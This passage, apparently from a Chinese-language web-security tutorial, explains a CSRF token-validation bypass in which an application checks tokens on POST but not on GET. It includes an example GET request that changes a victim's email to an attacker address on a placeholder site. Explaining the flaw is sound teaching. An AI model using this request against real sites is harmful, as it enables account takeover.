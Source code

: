 当请求使用POST方法时，某些应用程序正确地验证了令牌，但是当使用GET方法时，跳过了验证。

在这种情况下，攻击者可以切换到GET方法来绕过验证并发送CSRF攻击：

GET /email/change?email=pwned@evil-user.net HTTP/1.1

Host: vulnerable-website.com

Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm